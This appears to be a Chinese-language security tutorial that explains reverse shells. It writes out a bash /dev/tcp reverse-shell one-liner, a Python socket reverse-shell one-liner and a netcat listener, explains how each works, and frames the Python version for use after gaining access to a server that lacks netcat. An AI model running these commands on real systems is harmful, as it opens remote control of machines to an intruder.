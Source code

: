 反弹shell命令：

```
bash -i >& /dev/tcp/ip/port 0>&1
```

[![g5N2GR.png](https://z3.ax1x.com/2021/05/19/g5N2GR.png)](https://imgtu.com/i/g5N2GR)

PC接收netcat命令：

```
nc -lvp port
```

[![g5Nvsf.png](https://z3.ax1x.com/2021/05/19/g5Nvsf.png)](https://imgtu.com/i/g5Nvsf)

#### 命令解释介绍

```
bash -i >& /dev/tcp/ip/port 0>&1
```

在命令中``bash -i``表示已交互模式运行``bash shell``。重定向符``>&``，如果在其后加文件描述符，是将``bash -i``交互 模式传递给文件描述符，而如果其后面是文件，则将``bash -i``交互模式传递给文件。``/dev/tcp/ip/port``表示传递给远程主机的IP地址对应的端口。

文件描述符：0 标准输入、1 标准输出、2 错误输入输出。

命令行中``0>&1``表示将标准输入重定向到标准输出，实现远程的输入可以在远程输出对应内容。

### netcat反弹shell(python)

#### 应用场景

某些拿到服务器权限之后，想要设置一个反弹shell。但是目标服务器上没有安装netcat时，但是安装了python。(Linux上一般会安装python)

#### 基础介绍

反弹shell命令：

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```



PC接收netcat命令：

```
nc -lvp port
```



#### 命令解释

首先使用socket与远程建立连接，具有了远程的文件描述符，可以使用``s.fileno()``来查看具体套接字建立的远程文件描述符。

os库的``dup2``方法将标准输入、标准输出、标准错误输出重定向到远程，使用os的``subprocess``在本地开启了一个子进程，传入参数``-i``使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样就可以实现反弹shell。
